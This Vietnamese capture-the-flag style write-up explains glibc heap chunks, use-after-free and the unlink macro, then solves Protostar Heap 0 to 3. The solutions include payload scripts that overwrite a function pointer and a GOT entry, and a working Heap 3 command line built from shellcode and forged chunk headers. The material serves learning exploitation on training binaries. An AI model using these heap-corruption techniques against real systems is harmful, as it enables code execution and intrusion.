

# Heap
## Lý thuyết
### 1. Heap
Tương tự stack, heap là 1 phần của vùng nhớ được cấp phát cho chương trình khi chạy, dùng để lưu các biến được cấp phát động. Trong C, heap được kiểm soát bởi các hàm `calloc()`, `malloc()`, `realloc()` và `free()`.


### 2. Cấu trúc của heap
Một khối nhớ trong heap được gọi là 1 chunk. Cấu trúc của chunk khi free như sau:


Trong đó:
- ***prev_size***: kích thước của khối chunk phía trước
- ***size***: kích thước khối chunk hiện tại, trong đó bit cuối dùng để đánh dấu xem khối chunk liền trước có free hay không (0: free, 1: inuse)
- ***fd***: con trỏ đến khối chunk free tiếp theo
- ***bk***: con trỏ đến khối chunk free phía trước
- ***data***: lưu trữ dữ liệu "thực sự"

Khi 1 khối chunk được sử dụng, các trường `fd` và `bk` sẽ không tồn tại và chỉ có trường `prev_size`, `size` và `data`. Khi chunk đó được free, trường data sẽ bị ghi đè bởi `fd` và `bk`
### 3. Use-after-free
Chương trình quản lý 1 vùng nhớ được cấp phát động bởi con trỏ trở tới vùng nhớ đó. Khi gọi hàm `free()` cho vùng nhớ đó, con trỏ vẫn giữ nguyên giá trị là địa chỉ của vùng nhớ, thay vì được sửa thành `null` (vùng nhớ chỉ được "đánh dấu" là có thể ghi đè, trong khi liên kết của con trỏ tới vùng nhớ cẫn tồn tại). Nếu vùng nhớ này được cấp phát cho 1 đỗi tượng khác thì vẫn có thể dùng con trỏ cũ để tham chiếu đến dữ liệu mới => có thể khai thác.
### 4. Unlink
#### a. Hàm free()
Đoạn code của hàm free() trong libc:
```c
else if (!chunk_is_mmapped(p)) {
    set_anychunks(av);

    nextchunk = chunk_at_offset(p, size);
    nextsize = chunksize(nextchunk);

    /* consolidate backward */
    if (!prev_inuse(p)) {
    prevsize = p->prev_size;
    size += prevsize;
    p = chunk_at_offset(p, -((long) prevsize));
    unlink(p, bck, fwd);
    }

    if (nextchunk != av->top) {
    /* get and clear inuse bit */
    nextinuse = inuse_bit_at_offset(nextchunk, nextsize);
    set_head(nextchunk, nextsize);

    /* consolidate forward */
    if (!nextinuse) {
        unlink(nextchunk, bck, fwd);
        size += nextsize;
    }
    /*
        Place the chunk in unsorted chunk list. Chunks are
        not placed into regular bins until after they have
        been given one chance to be used in malloc.
    */
    bck = unsorted_chunks(av);
    fwd = bck->fd;
    p->bk = bck;
    p->fd = fwd;
    bck->fd = p;
    fwd->bk = p;

    set_head(p, size | PREV_INUSE);
    set_foot(p, size);

    check_free_chunk(p);
    }
```
Khi hàm `free(current_chunk)` được gọi, trình dịch sẽ thực hiện các việc sau:

- Chuyển `current_chunk` thành `free_chunk`.
- Kiểm tra `prev_chunk` và `next_chunk` có free hay không
- Nếu 2 chunk trước và sau chưa được free thì thêm `current_chunk` vào unsorted bin.
- Nếu `prev_chunk` đã free, unlink previous chunk (loại bỏ chunk này ra khỏi unsorted bin), gộp với `current_chunk` (tăng `size` của `prev_chunk`) và thêm chunk mới này vào unsorted bin (là 1 danh sách liên kết đôi).
- Nếu `next_chunk` đã free, unlink next chunk, gộp với `current_chunk` (tăng `size` của `current_chunk`) và thêm chunk mới này vào unsorted bin.
***Note***: Kiểm tra chunk hiện tại có free hay không bằng cách kiểm tra bit cuối cùng trong trường `size` của chunk liền sau
#### b. Unlink macro
Unlink macro được định nghĩa:
```c
#define unlink(P, BK, FD) {
    BK = P->bk;
    FD = P->fd;
    FD->bk = BK;
    BK->fd = FD;
}
```
Trong đó, P là struct `malloc_chunk`:
```c
struct malloc_chunk {
    INTERNAL_SIZE_T prev_size; //4 bytes
    INTERNAL_SIZE_T size; //4 bytes
    struct malloc_chunk* fd; //4 bytes
    struct malloc_chunk* bk; //4 bytes
};
```
Minh họa:


Sau khi unlink, ta có giá trị của `P->bk` được lưu tại ô nhớ có địa chỉ `(P->fd) + 12` (tức là `FD->bk = BK`) và giá trị của `P->fd` được lưu tại ô nhớ có địa chỉ `(P->bk) + 8` (tức là `BK->fd = FD`).
## Kết quả
### Heap 0
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);
  
  f->fp();

}
```
Mục tiêu là thực thi hàm `winner()`, vì vậy cần ghi đè con trỏ hàm `fp()` bởi địa chỉ của hàm này.


Mảng `name` của struct `data` gồm 64 byte, cộng thêm 8 byte ở đầu mỗi chunk nữa là 72 byte:



### Heap 1
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```
Vì cũng không có con trỏ hàm hay có thể ghi đè return address để điều hướng chương trình nên mình sẽ dùng cách ghi đè lên bảng GOT.


Ta thấy tại địa chỉ `0x08049774` đã lưu lại lệnh `puts` nên ta sẽ ghi đè nó bởi địa chỉ hàm `winner()` (tại sao lại là `puts` mà không phải `printf` thì có thể dùng gdb để kiểm tra)
Thử chạy chương trình bằng gdb và kiểm tra heap:


Bây giờ mình sẽ ghi đè giá trị của biến con trỏ `name` bởi địa chỉ `0x08049774`
```py
# heap1.py
import struct
padding = 'a' * 20
address_to_write = struct.pack('<I',0x08049774)
print padding+address_to_write
```
```py
# addr.py
import struct
print struct.pack("I", 0x08048494)
```


### Heap 2
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv)
{
  char line[128];

  while(1) {
    printf("[ auth = %p, service = %p ]\n", auth, service);

    if(fgets(line, sizeof(line), stdin) == NULL) break;
    
    if(strncmp(line, "auth ", 5) == 0) {
      auth = malloc(sizeof(auth));
      memset(auth, 0, sizeof(auth));
      if(strlen(line + 5) < 31) {
        strcpy(auth->name, line + 5);
      }
    }
    if(strncmp(line, "reset", 5) == 0) {
      free(auth);
    }
    if(strncmp(line, "service", 6) == 0) {
      service = strdup(line + 7);
    }
    if(strncmp(line, "login", 5) == 0) {
      if(auth->auth) {
        printf("you have logged in already!\n");
      } else {
        printf("please enter your password\n");
      }
    }
  }
}
```
Nhìn qua thì mình thấy logic chương trình là thay đổi biến `auth` để có thể login thành công. Tuy nhiên không thể sửa biến này 1 cách dễ dàng theo kiểu tràn bộ đệm được vì trước lệnh `strcpy(auth->name, line + 5)` đã có ràng buộc về số kí tự rồi. Mình chạy thử chương trình và phát hiện điều bất thường:


Sau khi reset thì giá trị của con trỏ `auth` không đổi. Đây có lẽ là lỗi use-after-free đã nói ở trên, nhưng mình vẫn sẽ dùng gdb để xem điều gì đã xảy ra bên trong heap.


Sau khi reset thì 4 byte tại địa chỉ `0x0804c008` đã được đặt về 0, tuy nhiên giá trị của con trỏ `auth` (tức là địa chỉ của struct `auth`) vẫn không đổi. Điều tương tự cũng xảy ra với mảng `name` và biến `auth` của struct.


Sử dụng service sẽ thực thi hàm `strdup()`, hàm này cấp phát động 1 vùng nhớ, sao chép xâu tại địa chỉ `line + 7` vào đó và gán địa chỉ đó cho con trỏ `service`. Địa chỉ đó giống với địa chỉ của con trỏ `auth`, và mình nhận ra là nếu xâu đủ dài thì có thể ghi giá trị vào biến `name`:


Cuối cùng dùng login là có thể đăng nhập thành công:


### Heap 3
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

void winner()
{
  printf("that wasn't too bad now, was it? @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  char *a, *b, *c;

  a = malloc(32);
  b = malloc(32);
  c = malloc(32);

  strcpy(a, argv[1]);
  strcpy(b, argv[2]);
  strcpy(c, argv[3]);

  free(c);
  free(b);
  free(a);

  printf("dynamite failed?\n");
}
```
Ở đây mình thấy xuất hiền hàm `winner()` nên chắc chắn mục tiêu sẽ là thực thi được hàm này => tìm địa chỉ hàm `winner()`:


Nhận thấy không thể trực tiếp ghi đè lên địa chỉ này lên return address nên mình sẽ làm theo hướng ghi đè lên địa chỉ trong bảng GOT, cụ thể là địa chỉ của hàm `puts()`:


Như vậy mục tiêu là ghi giá trị `0x08048864` vào vùng nhớ có địa chỉ `0x0804b128`. Vì có hàm `free()` và không thể khai thác UAF (vì không có con trỏ mới được khai báo xong khi `free()`) nên mình sẽ thử theo hướng unlink. Ý tưởng ban đầu là cho `P -> bk = 0x08048864` và `P -> fd = 0x0804b128 - 12`, tuy nhiên sau đó vùng code của hàm `winner()` sẽ bị ghi đè bởi giá trị `P -> fd` nên sẽ gây ra lỗi. Vì vậy ta phải thay thể `P -> bk` bởi 1 địa chỉ khác, cụ thể là địa chỉ của shellcode thực thi hàm `winner()`:
```c
push 0x08048864
ret
```
Chuyển sang dạng byte => `\x68\x64\x88\x04\x08\xc3`. Đoạn shellcode này sẽ đặt trong heap và địa chỉ này sẽ đc gán cho `P -> bk`. Mình sẽ thử chạy chương trình với 3 tham số bất kỳ để xem cấu trúc heap như thế nào:


```py
user@protostar:/opt/protostar/bin$ ./heap3 `python -c 'print "A"*8 + "\x68\x64\x88\x04\x08\xC3"'` `python -c 'print "A"*28 + "\x01\x01\x01\x01" + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff"'` `python -c 'print "A"*4 + "\x1c\xb1\x04\x08" + "\x10\xc0\x04\x08"'`
that wasn't too bad now, was it? @ 1709237513
```
Giải thích:

- Đối với `a`:

  - 8 ký tự A tương ứng với 8 byte là 2 trường `fd` và `bk`, 8 byte này sẽ giữ cho shellcode không bị ghi đè khi gọi hàm `free(a)`
  - `\x68\x64\x88\x04\x08\xC3` đoạn shellcode gọi hàm `winner()`

- Đối với `b`:

  - 28 ký tự A (phần này ghi bất kỳ, miễn không xuất hiện null byte)
  - `\x01\x01\x01\x01` trường `prev_size` của next chunk (tại sao lại là next chunk thì mình sẽ giải thích ngay bên dưới)
  - `\xfc\xff\xff\xff` ghi đè lên `prev_size` và `size` của `c`. Khi tính toán với giá trị địa chỉ này sẽ gây ra hiện tượng tràn bit ( = -4) nên ta có thể dễ dàng kiểm soát, trong khi đó bit cuối cùng là 0 (previous chunk là free)  nên có thể consolidate back.

- Đối với `c`: đây chính là current chunk, do có trường `size` và `prev_size` là số âm nên địa chỉ của previous chunk sẽ là current chunk + 4, của next chunk là current chunk - 4

  - 4 ký tự A tương ứng với kích thước của previous chunk (phần này ghi gì cũng được, miễn là không có null byte)
  - `\x1c\xb1\x04\x08` = `0x0804b128 - 12` tương ứng với `fd` của previous chunk
  - `\x10\xc0\x04\x08` là địa chỉ của đoạn shellcode

- Kết luận: Khi gọi hàm `free(c)`, trình biên dịch sẽ kiểm tra previous chunk của chunk `c` có free hay không, trong trường hợp này là free, do đó thực hiện unlink đối với previous chunk này => địa chỉ shellcode được ghi vào vùng nhớ có địa chỉ `0x0804b128` => ghi đè GOT thành công.


